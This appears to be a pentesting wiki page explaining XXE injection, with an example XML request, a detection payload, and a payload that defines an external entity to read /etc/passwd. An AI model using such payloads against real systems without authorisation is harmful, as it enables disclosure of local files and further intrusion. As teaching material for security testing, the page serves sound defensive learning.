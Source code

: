 # XXE injection

## Theory

Some web applications handle data and rely on the XML format to exchange data with the browsers.

> XXE vulnerabilities arise because the XML specification contains various potentially dangerous features, and standard parsers support these features even if they are not normally used by the application.
>
> XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data ([portswigger](https://portswigger.net/web-security/xxe)).

XXE injections can sometimes lead to [SSRF (Server-Side Request Forgery)](../../web/inputs/ssrf.md), Local File Disclosure, Sensitive Information Disclosure, Data Exfiltration, RCE (Remote Code Execution) and so on.

## Practice

Testers need to find input vectors and forms that send XML formatted data to the application.

For instance, in the following request, the user submitted a search form with the input "TESTINPUT".

```http
POST /action HTTP/1.1
Host: some.website
[...]
Connection: close

<?xml version="1.0"?>
<searchForm>  
         <from>TESTINPUT</from>
</searchForm>
```

The tester can detect if the XML parser parses the external entities by defining one inside a `DOCTYPE` element, and checking if the value in the `from` element gets replaced (the value will be replaced in the reflected messages sent by the application like error messages, search results).

```markup
<?xml version="1.0"?>
<!DOCTYPE xxeinjection [ <!ENTITY newfrom "VULNERABLE"> ]>
<searchForm>  
         <from>&newfrom;</from>
</searchForm>
```

A vulnerable application should replace the value by "VULNERABLE". The tester can then try to disclose local files by replacing the `from` value with the content of a sensitive file (e.g. `/etc/passwd`).

```markup
<?xml version="1.0"?>
<!DOCTYPE xxeinjection [ <!ENTITY newfrom SYSTEM "file:///etc/passwd"> ]>
<searchForm>
  <from>&newfrom;</from>
</searchForm>
```

## References

{% embed url="https://portswigger.net/web-security/xxe" %}

{% embed url="https://enciphers.com/how-to-exploit-xxe-vulnerabilities/" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection" %}
